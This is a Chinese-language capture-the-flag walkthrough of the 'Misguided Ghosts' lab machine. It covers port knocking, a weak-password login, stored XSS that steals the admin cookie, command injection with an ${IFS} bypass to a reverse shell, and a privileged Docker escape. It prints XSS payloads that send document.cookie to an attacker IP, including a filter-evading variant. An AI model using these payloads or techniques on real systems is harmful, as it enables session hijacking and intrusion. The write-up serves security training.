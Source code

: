 # Misguided Ghosts

---

## 端口扫描

循例nmap

![在这里插入图片描述](https://img-blog.csdnimg.cn/a75281215e3b4143843234cbfda29528.png)

## FTP枚举

直接登anonymous，有几个文件，下下来

![在这里插入图片描述](https://img-blog.csdnimg.cn/00cb99b7a32f4fa2bc81557ebe8a3925.png)

info.txt

	我已经包含了您要求的所有网络信息，以及一些我最喜欢的笑话。
	
	- 帕拉摩尔


该信息可能指的是pcapng文件

jokes.txt

	Taylor: Knock, knock.
	Josh:   Who's there?
	Taylor: The interrupting cow.
	Josh:   The interrupting cow--
	Taylor: Moo
	
	Josh:   Knock, knock.
	Taylor: Who's there?
	Josh:   Adore.
	Taylor: Adore who?
	Josh:   Adore is between you and I so please open up!


这里的暗示很明显，端口敲门无疑

## 端口敲门

打开pacapng文件分析，最终联合上文信息猜测应该有端口敲门的数据包

当向关闭的tcp端口发送 syn的时候，总是会回复RST ACK，所以可以基本确定这就是端口敲门的数据包

![在这里插入图片描述](https://img-blog.csdnimg.cn/0c0b88c516ad446d811e22dee5b890c8.png)

nc一把梭

![在这里插入图片描述](https://img-blog.csdnimg.cn/d99a87d4be454565a855ff7be4f2cdb5.png)

nmap再扫一遍，开了个8080，注意是https的

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b7c09ca84c84820a5e8baa0b6b4fc80.png)

## Web枚举

进到8080的https

![在这里插入图片描述](https://img-blog.csdnimg.cn/1eada3740f2e4cd5b41fe63146a320ff.png)

gobuster扫一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/b6964caad9db495bac0facb47be1d9d5.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/d0074f4678114903a1272bec6204cc1b.png)

/console可以执行python代码，但需要先输入pin，但我们目前并没有

![在这里插入图片描述](https://img-blog.csdnimg.cn/f6df7d0cf753490eb1313f5a4ead8824.png)

到login看一下，正常的登录框，但我们目前没有任何凭据以及用户名，根据之前的经验，看一下https的证书

![在这里插入图片描述](https://img-blog.csdnimg.cn/c0bffc904f8d4a0f882d311f0bf0167d.png)

这里有个邮箱，zac应该就是用户名，拿去尝试弱口令

使用zac:zac凭据成功登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/009b7bf1e99e4ae6828068c6053aa82c.png)

这里有一条信息：

	Create a post below; admins will check every two minutes so don't be rude.

这意味着我们可以尝试xss来捕获admin的cookie

	<script>fetch('http://10.14.39.48:8000/?cookie=' + btoa(document.cookie));</script>

发现有过滤

![在这里插入图片描述](https://img-blog.csdnimg.cn/8233a0f8e92849f88e00a16cb1bbe3a8.png)

fetch和iframe的请求似乎都会被拦截，这里通过img可以通过

	&lt;scscriptript&gt;var a = new Image();a.src = 'http://10.14.39.48:8000/?cookie='+btoa(document.cookie);&lt;/scscriptript&gt;

![在这里插入图片描述](https://img-blog.csdnimg.cn/e814a0c8c2e84290989882d3bea7093a.png)

稍等一会，admin就会到来

![在这里插入图片描述](https://img-blog.csdnimg.cn/df548c9eaf344892a703dadf9bcbccf5.png)

base64解码后把cookie丢到cookie editor

![在这里插入图片描述](https://img-blog.csdnimg.cn/55d79096ce4e4eb8b204fd5192b9c14a.png)

似乎也没啥东西，带着cookie再扫一遍目录

![在这里插入图片描述](https://img-blog.csdnimg.cn/c9d6b365d7ca467a9360fd17a8d42dde.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/5c894696c5b8455e9fe0771c5dc00718.png)

/photos，一个文件上传

![在这里插入图片描述](https://img-blog.csdnimg.cn/1268019460e9432ca1bd75a732a38915.png)

尝试上传的时候发现图片都传不上去，回显是显示文件不存在

![在这里插入图片描述](https://img-blog.csdnimg.cn/2164368b3e1a42e6ab03ffc91f1fcf00.png)

根据之前的经验，可能是执行的类似ls的命令，尝试绕过

![在这里插入图片描述](https://img-blog.csdnimg.cn/b941270a82184202a24bdb65ea7c31e9.png)

能够rce，尝试reverse shell

甚至还有空格过滤

![在这里插入图片描述](https://img-blog.csdnimg.cn/e565ea12d1064eafa12687271ee81831.png)

通过${IFS}轻松绕过

![在这里插入图片描述](https://img-blog.csdnimg.cn/2e5dfdb0cbe64f9d883555fc8cd92fbc.png)

## Docker逃逸

进来就看见.dockerenv

![在这里插入图片描述](https://img-blog.csdnimg.cn/72f35c48c0b445f5a2227bc66e5f9d78.png)

可以看到使用了--privileged以特权身份运行

根据HackTricks的Trick，我们能够访问到所有设备，我们可以直接把宿主机的disk直接挂载过来

![在这里插入图片描述](https://img-blog.csdnimg.cn/38c4eed8307e4d07b57876e835115706.png)

fdisk查看, 有个19GB的，是它没错了

![在这里插入图片描述](https://img-blog.csdnimg.cn/e0a30fef764549dcb076f185e1aee800.png)

mount挂载过来

![在这里插入图片描述](https://img-blog.csdnimg.cn/09d1e94a944b439b8c5c24db3077db9c.png)

成功拿到user和root flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/3299ba4ba22d43b0bdcb5c527bd76ee5.png)
